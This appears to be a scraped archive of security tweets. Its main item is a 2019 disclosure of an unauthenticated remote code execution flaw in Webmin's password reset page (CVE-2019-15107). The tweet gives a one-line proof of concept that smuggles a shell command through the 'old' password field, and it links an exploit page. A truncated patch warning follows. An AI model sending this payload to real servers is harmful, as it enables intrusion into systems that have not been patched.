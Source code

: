 <td><img src="pictures/c4b94f1fcc64c6740eba70aebf23aa24fafc91e8296fb36b9fa4c09e17a0dcee.jpg" alt="c4b94f1fcc64c6740eba70aebf23aa24fafc91e8296fb36b9fa4c09e17a0dcee.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# _hg8_
**https://twitter.com/_hg8_/status/1162694712177954819 _at 2019-08-17, 11:56:35_**
<blockquote>
"Webmin 0day remote code execution"

Tl;Dr: Lack of input validation in the reset password function  allows RCE (CVE-2019-15107). Over 13 0000 vulnerable on Shodan. 

PoC: 
/password_reset.cgi 
user=root&amp;pam&amp;expired&amp;old=wrong | id

https://t.co/kYKfq8v6Bb
</blockquote>

* https://pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>436</code></td>
<td>Favorites: <code>848</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1161343245722349568 _at 2019-08-13, 18:26:21_**
<blockquote>
⚠️ URGENT / Patch Immediately
